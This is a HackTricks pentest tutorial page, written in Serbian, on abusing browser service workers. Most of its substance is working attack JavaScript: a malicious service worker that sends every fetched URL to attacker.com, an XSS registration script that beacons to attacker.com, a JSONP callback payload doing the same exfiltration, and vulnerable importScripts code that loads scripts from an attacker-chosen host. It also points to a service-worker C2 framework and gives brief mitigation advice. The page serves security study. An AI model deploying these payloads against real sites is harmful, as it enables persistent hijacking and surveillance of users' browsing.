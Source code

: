# Abusing Service Workers

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF-u**? Proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova** na [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Try Hard Security Group**

<figure><img src="../../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Osnovne informacije

**Servisni radnik** je skripta koju vaš pregledač pokreće u pozadini, odvojeno od bilo koje veb stranice, omogućavajući funkcije koje ne zahtevaju veb stranicu ili interakciju korisnika, čime se poboljšavaju mogućnosti **offline i obrade u pozadini**. Detaljne informacije o servisnim radnicima mogu se pronaći [ovde](https://developers.google.com/web/fundamentals/primers/service-workers). Iskorišćavanjem servisnih radnika unutar ranjive veb domene, napadači mogu preuzeti kontrolu nad interakcijama žrtve sa svim stranicama unutar te domene.

### Provera postojanja servisnih radnika

Postojeće servisne radnike možete proveriti u odeljku **Servisni radnici** u kartici **Aplikacija** u **Alatkama za razvoj**. Drugi način je posetiti [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) za detaljniji prikaz.

### Obaveštenja o guranju

**Dozvole za obaveštenja o guranju** direktno utiču na sposobnost **servisnog radnika** da komunicira sa serverom bez direktnog korisničkog interakcije. Ako su dozvole odbijene, ograničava potencijal servisnog radnika da predstavlja kontinuiranu pretnju. Nasuprot tome, davanje dozvola povećava rizike bezbednosti omogućavajući prijem i izvršenje potencijalnih eksploatacija.

## Napad kreiranja servisnog radnika

Da biste iskoristili ovu ranjivost, morate pronaći:

* Način za **učitavanje proizvoljnih JS** fajlova na server i **XSS za učitavanje servisnog radnika** učitanog JS fajla
* **Ranjiv JSONP zahtev** gde možete **manipulisati izlazom (sa proizvoljnim JS kodom)** i **XSS** za **učitavanje JSONP-a sa payloadom** koji će **učitati zlonamernog servisnog radnika**.

U sledećem primeru ću prikazati kod za **registrovanje novog servisnog radnika** koji će osluškivati događaj `fetch` i **slati serveru napadača svaki preuzeti URL** (ovo je kod koji biste trebali **učitati** na **server** ili učitati putem **ranjivog JSONP** odgovora):

```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```

I ovo je kod koji će **registrovati radnika** (kod koji biste trebali moći da izvršite zloupotrebom **XSS**-a). U ovom slučaju će **GET** zahtev biti poslat **napadačevom** serveru **obaveštavajući** da li je **registracija** servisnog radnika bila uspešna ili ne:

```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```

U slučaju zloupotrebe ranjive JSONP tačke, trebalo bi da stavite vrednost unutar `var sw`. Na primer:

```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```

Postoji **C2** posvećen **eksploataciji servisnih radnika** nazvan [**Shadow Workers**](https://shadow-workers.github.io) koji će biti vrlo koristan za zloupotrebu ovih ranjivosti.

Direktiva **keša od 24 sata** ograničava život zlonamernog ili kompromitovanog **servisnog radnika (SW)** na najviše 24 sata nakon popravke ranjivosti XSS-a, uz pretpostavku statusa online klijenta. Da bi se smanjila ranjivost, operateri sajtova mogu smanjiti vreme života skripte SW-a (TTL). Razvojni programeri takođe se savetuju da kreiraju [**prekidač za gašenje servisnog radnika**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) za brzo deaktiviranje.

## Zloupotreba `importScripts` u SW putem DOM Clobbering

Funkcija **`importScripts`** pozvana iz Servisnog Radnika može **uvoziti skriptu sa različite domene**. Ako se ova funkcija pozove koristeći **parametar koji napadač može** izmeniti, on bi mogao **uvoziti JS skriptu sa svoje domene** i dobiti XSS.

**Ovo čak zaobilazi zaštitu CSP-a.**

**Primer ranjivog koda:**

* **index.html**

```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```

* **sw.js**

```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```

### Sa DOM Clobbering-om

Za više informacija o tome šta je DOM Clobbering, pogledajte:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Ako je URL/domenu gde SW koristi **`importScripts`** unutar HTML elementa, moguće je izmeniti ga putem DOM Clobbering-a kako bi SW učitao skriptu sa vaše sopstvene domene.

Za primer pogledajte referentni link.

## Reference

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

**Try Hard Security Group**

<figure><img src="../../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? ili želite pristup **najnovijoj verziji PEASS-a ili preuzimanje HackTricks-a u PDF formatu**? Proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repozitorijum**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repozitorijum**](https://github.com/carlospolop/hacktricks-cloud).

</details>
